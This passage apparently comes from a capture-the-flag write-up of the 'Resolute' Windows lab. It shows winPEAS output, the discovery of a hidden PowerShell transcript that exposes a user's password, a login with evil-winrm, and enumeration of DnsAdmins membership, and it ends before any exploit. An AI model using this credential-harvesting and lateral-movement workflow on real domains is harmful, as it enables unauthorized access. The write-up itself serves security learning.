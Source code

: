 When we run winPEAS, you should notice that in the PowerShell description, it mentions a directory for transcripts:

```bash
 [+] PowerShell Settings
 PowerShell v2 Version: 2.0
 PowerShell v5 Version: 5.1.14393.0
 Transcription Settings: EnableTranscripting : 0
 OutputDirectory : C:\PSTranscipts
 EnableInvocationHeader : 0
 Module Logging Settings:
 Scriptblock Logging Settings: EnableScriptBlockLogging : 0
 PS history file:
 PS history size:
```

If we change directory to c:\PSTranscripts and do a dir, we won't see anything and we have to look for hidden directories and files to be able to do that. Eventually we find a file in the path c:\PSTranscripts\20191203

```bash
*Evil-WinRM* PS C:\PSTranscripts\20191203> ls -h
 Directory: C:\PSTranscripts\20191203
Mode LastWriteTime Length Name
---- ------------- ------ ----
-arh-- 12/3/2019 6:45 AM 3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

We can download this file using the download command and look at it on our box. In the file, we notice a command that uses the user ryan with a password of Serv3r4Admin4cc123!

```bash
cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

We can then use evil-winrm to login as user ryan. In the c:\Users\ryan\Desktop directory there is a file called note.txt. After downloading it for our audit purposes, the contents reveal that any changes that are made to the system will be reverted after 1 minute. Running winPEAS again for the user ryan does not show any specific vulnerabilities apart from the fact that he is part of the DnsAdmins group. We could have also seen this by using the whoami /all command. We can get more information about this using Get-ADGroupMember:

```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> Get-AdGroupMember -Identity DnsAdmins
distinguishedName : CN=Contractors,OU=Groups,DC=megabank,DC=local
name : Contractors
objectClass : group
objectGUID : 9f2ff7be-f805-491f-aff1-3653653874d7
SamAccountName : Contractors
SID : S-1-5-21-1392959593-3013219662-3596683436-1103
*Evil-WinRM* PS C:\Users\ryan\Desktop> Get-AdGroupMember -Identity Contractors
distinguishedName : CN=Ryan Bertrand,OU=Contractors,OU=MegaBank Users,
    DC=megabank,DC=local
name : Ryan Bertrand
objectClass : user
objectGUID : 848c83e3-6cbe-4d3e-bacf-aa7bd37da691
SamAccountName : ryan
SID : S-1-5-21-1392959593-3013219662-3596683436-1105
```
